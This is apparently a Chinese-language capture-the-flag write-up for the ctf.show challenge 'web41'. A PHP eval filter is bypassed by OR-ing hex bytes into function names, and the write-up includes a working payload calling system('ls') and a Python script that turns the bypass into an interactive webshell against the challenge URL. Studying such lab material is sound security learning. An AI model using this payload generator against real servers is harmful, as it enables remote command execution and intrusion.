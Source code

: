 # web41

```php
if(isset($_POST['c'])){
    $c = $_POST['c'];
if(!preg_match('/[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-/i', $c)){
        eval("echo($c);");
    }
}else{
    highlight_file(__FILE__);
}
```

拦截了以下字符

```plaintext
^ + ~ $ [] {} & -
```

可以发现所有数字和小写字母以外，都是表达式和运算的符号，但是 `|` 或运算符没有被过滤

比如 `0x13,0x19,0x13,0x14,0x05,0x0d | 0x60,0x60,0x60,0x60,0x60,0x60` 得到的数据就是 `system`

那么就可以尝试基于 Hex 构造 `(system)("ls")`

```plaintext
c=("%13%19%13%14%05%0d"|"%60%60%60%60%60%60")("%00%0c%13%00"|"%27%60%60%27")
```

![img](img/image_20250237-083733.png)

为了简化这一流程，可以使用自动化脚本来实现

```python
import requests
from string import digits, ascii_letters
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)


url = "https://3a2d207f-cf93-43ac-a8cf-2fb2dbd092bb.challenge.ctf.show/"

arg = "c"

func = "system"


def payload_process(payload: str):
    dics = []
    for i in range(0x00, 0xFF):
        if chr(i) not in digits + ascii_letters + r"^ + ~ $ [] {} & -".replace(" ", ""):
            dics.append(i)

    res_list = []

    for letter in payload:
        res_flag = False
        for i in dics:
            for j in dics:
                if (i | j) == ord(letter):
                    res_flag = True
                    a = hex(i)[2:].rjust(2, "0")
                    b = hex(j)[2:].rjust(2, "0")
                    res_list.append([f"%{a}", f"%{b}"])
                    break
            if res_flag:
                break

    res = ["", ""]
    for i in res_list:
        res[0] = res[0] + i[0]
        res[1] = res[1] + i[1]

    return f'("{res[0]}"|"{res[1]}")'


func = payload_process("system")

headersList = {
    "Accept": "*/*",
    "User-Agent": "Thunder Client (https://www.thunderclient.com)",
    "Content-Type": "application/x-www-form-urlencoded",
}

while True:
    command = input(">> ")
    command = payload_process(f"{command}")
    print(f"{arg}={func}{command}")
    req = requests.post(url, data=f"{arg}={func}{command}", verify=False, headers=headersList)
    res = req.text.strip()
    print(res)

```

就可以当作webshell伪终端来操作了

![img](img/image_20250224-092419.png)
